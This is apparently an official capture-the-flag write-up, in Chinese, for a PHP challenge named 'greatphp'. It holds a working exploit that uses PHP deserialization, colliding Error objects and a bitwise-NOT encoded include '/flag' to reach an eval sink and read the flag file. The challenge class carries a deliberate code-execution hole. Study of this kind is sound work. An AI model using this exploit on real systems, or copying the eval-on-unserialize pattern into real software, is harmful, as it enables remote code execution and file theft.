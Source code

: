 # greatphp 官方wp

这里直接丢个exp,考点是md5/sha1可以对一个类进行hash,会触发一个类的__toString方法,这里由于没有可以利用的类,所以需要寻找原生类,比如Error,Exception等,然后由于Error的toString是无法完全控制的,会有其他输出,所以使用?><?=的方式结束php从而完整控制整块代码,(这里有个坑就是Error必须不等,但toString生成的结果必须相等,由于toString生成的结果包含当前代码所在的行,所以新生成的2个实例必须在同一行),因为禁用了小括号无法调用函数,尝试直接include "/flag"即可.

```php
<?php

class SYCLOVER {
	public $syc;
	public $lover;
	public function __wakeup(){
		if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
		   if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->var1, $match)){
			   eval($this->syc);
		   } else {
			   die("Try Hard !!");
		   }
		   
		}
	}
}

$str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!".urldecode("%FF")."]?>";
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>

```

